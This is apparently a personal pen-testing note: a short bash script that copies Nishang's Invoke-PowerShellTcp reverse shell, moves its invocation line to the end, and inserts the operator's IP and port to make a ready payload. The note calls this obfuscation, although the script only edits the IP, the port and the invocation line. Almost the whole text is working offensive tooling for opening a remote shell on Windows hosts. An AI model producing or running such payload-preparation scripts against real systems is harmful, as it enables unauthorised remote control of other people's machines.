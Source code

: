 # script to obfuscate a nishang reverse tcp shell for windows powershell

- concept of `script to obfuscate a nishang reverse tcp shell for windows powershell`
- must have nishang package installed
  - [x] add error handling

```bash
#!/bin/bash

ATTACKER=$(getmyip)
PORT=$1
if [ -z "$PORT" ]; then
  export PORT=4444
fi
cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 nishang.ps1
# take the line, move to end and remove "PS >"
ex -s -c 'g/Invoke.*Tcp -Rev.*192.168.254.226/m$' -c '$s/PS > //' -c wq nishang.ps1
# edit the IP
ex -s -c "\$s/192.168.254.226/$ATTACKER/" -c wq nishang.ps1
# edit the port
ex -s -c "\$s/4444/$PORT/" -c wq nishang.ps1
```

` zet/20230906044835/README.md `

# Related

- [20230906033727](/zet/20230906033727/README.md) commands to get ip
- [20230905212307](/zet/20230905212307/README.md) important things from old install scripts and pen test environ that were copied to environment

Tags:

    #shortcmd #script #hacking
